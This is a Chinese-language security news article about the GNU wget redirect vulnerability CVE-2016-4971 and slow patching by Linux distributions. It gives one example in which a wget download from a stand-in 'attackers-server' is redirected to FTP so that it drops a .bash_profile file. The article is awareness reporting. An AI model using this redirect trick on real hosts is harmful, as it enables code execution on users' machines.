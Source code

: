 ```yaml
---
layout: post
title: 所有Linux发行版仍未修复严重的GNU wget漏洞
categories:
- 今日头条
tags:
---
```

				![](http://p1.pstatp.com/large/9e000070c4c7e7235d6)

E安全7月8日讯 先前，安全研究员Dawid Golunski和SecuriTeam曝出GNU wget漏洞（CVE-2016-4971）。6月9日，GNU wget项目发布文件下载包新版1.18修复漏洞。

CVE-2016-4971 漏洞回顾GUN wget 作为*nix 系统常用下载工具，支持http、https、ftp 等多种协议，当使用wget 下载文件时，若初始下载http服务提供的下载资源， 如果服务器将下载资源重定向到ftp服务时，wget 会默认信赖http服务器重定向的ftp 链接地址和文件名，而不做二次验证。从而可能下载到恶意钓鱼者的恶意文件，导致主机被入侵。

将近一个月后，包含GNU wget标准包的所有Linux发行版仍未修复被曝漏洞（CVE-2016-4971）。

GNU wget漏洞导致远程代码执行

安全研究员Dawid Golunski在公告中解释道，恶意攻击者能诱骗wget文件下载过程在Linux设备上执行代码。

Dawid Golunski通过电子邮件告诉外媒，“攻击者可能潜在滥用漏洞上传任意文件并执行代码。”

![](http://p3.pstatp.com/large/9de00069a9f7669a0f3)

GNU wget是从网络上自动下载文件的Linux命令行实用工具。如果链接发生变化，GNU wget支持URL重定向。

当重定向到FTP链接时，GNU wget不重命名文件

Golunski发现，当从最初的HTTP URL重定向到FTP链接时，wget不能正确处理文件名。

比如，如果攻击者通过wget控制定期下载文件的服务器，攻击者可以使用302重定向文件。运行wget http://attackers-server/safe_file.txt命令的用户将被重定向到下载ftp://attackers-server/.bash_profile。

在正常的HTTP重定向到HTTP中，为了防止远程代码执行（Remote Code Execution，缩写RCE），GNU wget将以原始文件名重命名第二个文件（.bash_profile to safe_file.txt）。然而，从HTTP重定向到FTP链接时，wget不包含该安全机制。这个问题影响打补丁1.18版本之前的所有GNU wget版本。

因为wget命令经常用于大多数时候自动执行下载文件的脚本中，这就让攻击者有了可乘之机。所有系统管理员应审查将wget作为首选下载内容的Cronjobs。

受影响的Linux发行版迟迟未修复

虽然GNU wget项目履行了自己的职责，但一些Linux发行版却未及时更新。Golunski表示，只有Ubuntu将GNU wget1.18（如wget 1.17-1）包含在wget发行版更新中。Arch Linux等发行版自6月中旬就已修复了该问题。

另一热门Linux OS—Debian特别配备了网络专家修复该问题。Wget 1.18目前包含在最新“测试”和“不稳定”版本中。

另一方面，Red Hat已经推迟修复7.x中存在的该问题，同时还宣布未修复旧版6.x和5.x版本中的wget问题。

虽然CVE-2016-4971安全隐患较高，但打补丁的速度也比较慢。

研究人员通过电子邮件告诉外媒，“重要的是，wget发布了已经发布了新版1.18，因此，如果用户受影响且希望得到安全保障，他们可以下载官方资源。”

Golunski和SecuriTeam已经发布了安全公告，内容包含漏洞与概念验证详情，以提高对问题的认识。

E安全/文 转载请注明E安全

E安全——全球网络安全新传媒

E安全微信公众号： EAQapp

E安全新浪微博：weibo.com/EAQapp

E安全客服&投稿邮箱：eapp@easyaq.com